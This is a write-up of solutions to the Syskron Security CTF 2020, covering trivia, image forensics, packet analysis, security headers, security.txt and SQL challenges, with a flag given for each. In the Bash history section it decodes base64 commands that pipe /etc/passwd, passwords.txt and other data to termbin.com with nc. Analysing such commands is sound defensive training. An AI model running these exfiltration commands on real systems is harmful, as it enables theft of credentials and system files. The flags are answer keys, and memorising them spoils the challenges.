# Syskron Security CTF 2020

## [Trivia] Vulnerable RTOS

> What are the names of 11 zero-day vulnerabilities that affect a wide range of real-time operating systems?

- https://www.armis.com/urgent11/
- Flag: syskronCTF{Urgent/11}

## [Trivia] Deadly malware

>  Which malware targets safety systems of industrial networks and caused deaths due to explosion?

- https://www.wired.com/story/triton-malware-targets-industrial-safety-systems-in-the-middle-east/
- Flag: syskronCTF{Triton}

## [Trivia] Security framework

> In 2018, the NIST published version 1.1 of their Cybersecurity Framework. What are the abbreviated names of the five core functions?

- https://nvlpubs.nist.gov/nistpubs/CSWP/NIST.CSWP.04162018.pdf (p. 6)
- Flag: syskronCTF{ID-PR-DE-RS-RC}

## [Trivia] Check digit

> We need a check digit in our keys. What do IMEI numbers, credit card numbers and UIC wagon numbers have in common?

- https://en.wikipedia.org/wiki/ISO/IEC_7812
- Flag: syskronCTF{ISO/IEC-7812}

## (Monday) [Forensics] Redacted news

> Oh, this is a news report on our Secure Line project. But someone removed a part of the story?!
>
> Hint: α

- The flag is on the missing part of the given image



- From the hint, we can guess that we need to remove the transparency

```python
from PIL import Image
# convert from RGBA to RGB will cancel transparency
Image.open('securelineChall.png').convert('RGB').save('securelineFlag.png')
```



- Flag: syskronCTF{d0-Y0u-UNdEr5TaND-C2eCh?}

## (Monday) [Packet Analysis] DoS attack

> One customer of Senork Vertriebs GmbH reports that some older Siemens devices repeatedly crash. We looked into it and it seems that there is some malicious network traffic that triggers a DoS condition. Can you please identify the malware used in the DoS attack? We attached the relevant network traffic.
>
> Flag format: syskronCTF{name-of-the-malware}
>
> Hint: They bought some older SIPROTEC 4 protection relays.

- The `.pcap` given shows us the port used, which helps us find which malware was used

  

- https://www.itwire.com/security/claroty-discovers-new-vulnerability-related-to-industroyer-malware.html

- Flag: syskronCTF{Industroyer}

## (Monday) [Web] Security headers

>  Can you please check the security-relevant HTTP response headers on www.senork.de. Do they reflect current best practices? 

- Looking at the response with the dev-tools, we see the header `flag-policy` containing the flag

  

- Flag: syskronCTF{y0u-f0und-a-header-flag}

## (Tuesday) [Forensics] Change

> One of Senork's employees opened a link in a phishing e-mail. After this, strange things happened. But this is likely related to the attached image. I have to check it.



- Looking at the image's metadata, we see a script in the `Copyright` section



- Executing the script in the browser's console gives us the flag



- Flag: syskronCTF{l00k5l1k30bfu5c473dj5}

## (Tuesday) [Best-practices] Security.txt

> The security.txt draft got updated (https://tools.ietf.org/html/draft-foudil-securitytxt-10).
>
> Is Senork's file still up-to-date? https://www.senork.de/.well-known/security.txt
>
> Hint: Signed files offer more security but less privacy.

- https://www.senork.de/.well-known/security.txt



- https://www.senork.de/openpgp.asc



- We can get info on the public key



- Flag: syskronCTF{Wh0-put3-flag3-1nto-0penPGP-key3???}

## (Tuesday) [Forensics] Bash history

> We suspect that one of BB's internal hosts has been compromised. I copied its ~./bash_history file. Maybe, there are some suspicious commands?

- Looking at the history, we can see that some commands have been base64 encoded



- Extracting every line containing base64

```bash
echo YnJubzAwMQ== | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDk5OTk= | base64 -d | bash
echo cm0gcHJvY2Vzc2Vz | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
echo xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==
echo ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gOTk5OQ== | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
```

- Gives us

```
brno001
ps ax > processes
cat processes | nc termbin.com 9999
rm processes
ls -l | nc termbin.com 9999
ńwtg6$3U&4c
echo c3lza3JvbkNURnt0SGV5
cat /etc/passwd | nc termbin.com 9999
cat passwords.txt | nc termbin.com 9999
```

- Decoding `c3lza3JvbkNURnt0SGV5` gives us `syskronCTF{tHey`
  - So we take the only string that doesn't give us a readable result and try to append it to the base64 containing the beginning of the flag (random stuff, always fun)
  - Finally we try `ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNUxYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==`, which gives us `c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9` which decodes to the flag

- Flag: syskronCTF{tHey-st0le-all-Data!!}

## (Tuesday) [SQL] Leak audit

> We found an old dump of our employee database on the dark net! Please check the database and send us the requested information:
>
> 1. How many employee records are in the file?
> 2. Are there any employees that use the same password? (If true, send us the password for further investigation.)
> 3. In 2017, we switched to bcrypt to securely store the passwords. How many records are protected with bcrypt?
>
> Flag format: answer1_answer2_answer3 (e.g., 1000_passw0rd_987).
>
> Hint: Knowing SQL doesn't hurt.

- For this challenge, we simply need to make SQL queries to get the desired answers

  1. ```sql
     SELECT COUNT(*)
     FROM personal;
     ```

     --> 376

  2. ```sql
     SELECT password
     FROM personal
     GROUP BY password
     HAVING count(*) > 1
     ORDER BY password DESC
     ```

     --> mah6geiVoo

  3. ```sql
     SELECT COUNT(*)
     FROM personal
     WHERE password like '$2b$%'
     ```

     --> 21

- Flag: syskronCTF{376_mah6geiVoo_21}